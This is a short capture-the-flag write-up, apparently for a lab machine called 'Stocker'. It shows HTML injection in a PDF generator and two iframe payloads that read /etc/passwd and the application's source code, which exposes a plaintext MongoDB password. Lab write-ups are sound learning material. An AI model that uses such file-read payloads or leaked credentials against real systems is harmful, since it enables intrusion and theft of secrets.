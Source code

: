 ![Untitled](/assets/images/Stocker/Pasted image 20230414012435.png)


![Untitled](/assets/images/Stocker/Pasted image 20230414012634.png)

the only reflected fields are the title , price and amount(Quantity)

##### Html injection

![Untitled](/assets/images/Stocker/Pasted image 20230414013056.png)

![Untitled](/assets/images/Stocker/Pasted image 20230414013029.png)


#### File Inclusion
- `/etc/passd`
	payoad:
	```html
	<iframe src=/etc/passwd height=1000 width=1000></iframe>
	```
	
	![Untitled](/assets/images/Stocker/Pasted image 20230414013803.png)
	

	- root
	- angoose
	- www-data (in /var/www)
- `/var/www/dev/index.js`
	payoad:
	```html
	<iframe src=/var/www/dev/index.js height=1000 width=1000></iframe>
	```

	```javascript
	onst express = require("express");  
	const mongoose = require("mongoose");  
	const session = require("express-session");  
	const MongoStore = require("connect-mongo");  
	const path = require("path");  
	const fs = require("fs");  
	const { generatePDF, formatHTML } = require("./pdf.js");  
	const { randomBytes, createHash } = require("crypto");  
	const app = express();  
	const port = 3000;  
	// TODO: Configure loading from dotenv for production  
	const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";  
	app.use(express.json());  
	app.use(express.urlencoded({ extended: false }));  
	app.use(  
	session({  
	secret: randomBytes(32).toString("hex"),  
	resave: false,  
	saveUninitialized: true,  
	store: MongoStore.create({  
	mongoUrl: dbURI,  
	}),  
	})  
	);  
	app.use("/static", express.static(__dirname + "/assets"));  
	app.get("/", (req, res) => {  
	return res.redirect("/login");  
	});  
	app.get("/api/products", async (req, res) => {  
	if (!req.session.user) return res.json([]);  
	const products = await mongoose.model("Product").find();  